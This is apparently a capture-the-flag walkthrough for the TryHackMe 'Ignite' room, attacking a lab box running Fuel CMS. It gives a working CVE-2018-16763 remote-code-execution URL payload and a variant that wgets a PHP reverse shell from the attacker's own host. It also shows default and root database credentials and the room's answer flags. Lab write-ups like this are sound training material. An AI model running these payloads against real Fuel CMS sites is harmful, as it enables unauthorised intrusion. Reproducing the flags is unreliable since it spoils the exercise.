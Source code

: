 ```yaml
---
layout: default
---
```


# Ignite CTF
### This is a walkthrough of the [Ignite CTF](https://tryhackme.com/room/ignite)
* * *
It is a classic room where you exploit a Linux box, running vulnerable CMS and owning the machine.
<br>OK lets begin!

I always like to export the ip address of the target to a env variable, because I don't need to type the whole address everytime.

>export ip=10.10.28.46

Ok lets start an Nmap scan
>$ nmap -sC -sV -oN nmap.txt $ip

```
# Nmap 7.80 scan initiated Wed Jun 24 12:30:40 2020 as: nmap -sC -sV -oN nmap.txt 10.10.28.46
Nmap scan report for 10.10.28.46
Host is up (0.076s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 24 12:30:54 2020 -- 1 IP address (1 host up) scanned in 13.52 seconds
```
We can see that only port 80/tcp is open ... <br>
If we open it in a web browser there is a default FuelCMS instance running,
lets check out the admin panel `/fuel`. It appears that it has the default admin:admin credentilas.
```
$ip/fuel
admin:admin

maybe could be solved by uploading reverse php shell via the cms control panel since we know the creds ...
```
I tried to upload a PHP reverse shell manually, via the admin panel, but failed.
I ran searchsploit against Fuel CMS and found out an interesting RCE (CVE 2018-16763) that could help me out to gain further access ...

```
Fuel CMS RCE < 1.4.1 (1.4 in our case)
CVE 2018-16763 

exploit(code='ls -la'):

$ip/fuel/pages/select/?filter='%2bpi(print(%24a%3d'system'))%2b%24a('ls -al')%2b'

credits: https://www.youtube.com/watch?v=wLWqkULvefU
```
Here i use the RCE to upload a reverse PHP shell, that I have hosted on my Kali box using SimpleHTTP server.

```
reverse shell upload and execute

http://10.10.28.46/fuel/pages/select/?filter='%2bpi(print(%24a%3d'system'))%2b%24a('wget 10.5.2.55:8000/reverse.php -O reverse.php')%2b'

10.10.28.46/reverse.php
```
Here I have found the User flag
```
User.txt
6470e394cbf6dab6a91682cc8585059b
```
I started enumerating, with linpeas, etc ...<br>
Couldn't find any privilage escalation vectors.
<br>I have spend a lot of time going around in circles. At this point I started trying out everything i could think of. <br>
I googled FuelCMS Database Configuration and found out [this article](https://www.codeigniter.com/user_guide/database/configuration.html) <br>
They were talking about the MySQL DB, and I assume the app needs to talk with the DB, to do so it need to get authenticated with the DB using some kind of credentials...
I have read that the configuration file is stored int app/config/database.php. <br>
At first i couldn't find it, so i ran a quick `find`.
```
$ find / -name database.php 2>/dev/null
/var/www/html/fuel/application/config/database.php
```
* * *
## A QUICK TIP
>If we take a look at the end of the `find` command i have used above, `2>/dev/null` is baiscally telling the shell to send [`Stderr` (Standart error)](https://www.computerhope.com/jargon/s/stderr.htm) to /dev/null.
> * 0:stdin
> * 1:stdout
> * 2:stderr
>
>That way when we search through the `/` directory there are many files that we can't open simply because we do not have the permissions to. <br>
>So we use `2>/dev/null` to NOT print the error messages we get. <br>
>We want to see only the relevant information and not a shell filled up with `find: ‘/root’: Permission denied`

* * *

### If we take a look at the default page of Fuel CMS, we can see that it is right in front of us, but yeah ...

<a href="pics/ignite/pic1.png" target="_blank"><img src="pics/ignite/pic1.png"></a>

I have found root creds in the file and got the flag ...

```
'username' => 'root',
'password' => 'mememe',
```
```
Root.txt
b9bbcb33e11b80be759c4e844862482d
```

### You can find more notes on TryHackMe CTFs at my [GitHub](https://github.com/P4nd4233/tryHackMe_CTFs_Notes) .